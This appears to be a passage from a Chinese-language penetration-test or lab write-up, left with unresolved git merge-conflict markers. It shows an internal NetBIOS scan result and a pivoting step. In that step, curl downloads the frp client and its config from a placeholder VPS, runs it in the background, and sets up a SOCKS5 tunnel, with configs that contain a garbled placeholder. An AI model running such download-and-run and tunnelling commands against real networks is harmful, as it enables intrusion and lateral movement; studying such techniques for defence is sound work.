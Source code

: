 提取关键资产：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
[*] NetBios 172.22.17.6     WORKGROUP\WIN-ENGINEER
```

### 内网代理

frp 内网代理：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
# frp_0.53.2
curl http://<YOUR-VPS-IP>:<YOUR-VPS-PORT>/frpc --output frpc
curl http://<YOUR-VPS-IP>:<YOUR-VPS-PORT>/frpc.toml --output frpc.toml
chmod +x frpc
nohup ./frpc -c frpc.toml &
```

<<<<<<< HEAD
frps.toml：

```plain
=======
frps.toml:

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
bindAddr="0.0.0.0"
bindPort = <YOUR-VPS-PORT>
auth.method = "token"
auth.token = "<YOUR-AUTH-TOKEN>"
```

<<<<<<< HEAD
frpc.toml：

```plain
=======
frpc.toml:

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
serverAddr = "<YOUR-VPS-IP>"
serverPort = <YOUR-VPS-PORT>
auth.method = "token"
auth.token = "<YOUR-AUTH-TOKEN>"

[[proxies]]
name = "plugin_socks5"
type = "tcp"
remotePort = <YOUR-REMOTE-PORT>
[proxies.plugin]
type = "socks5"
username = "REKIUR-USER-PASS>"
password = "<YOUR-USER-PASS>"
```
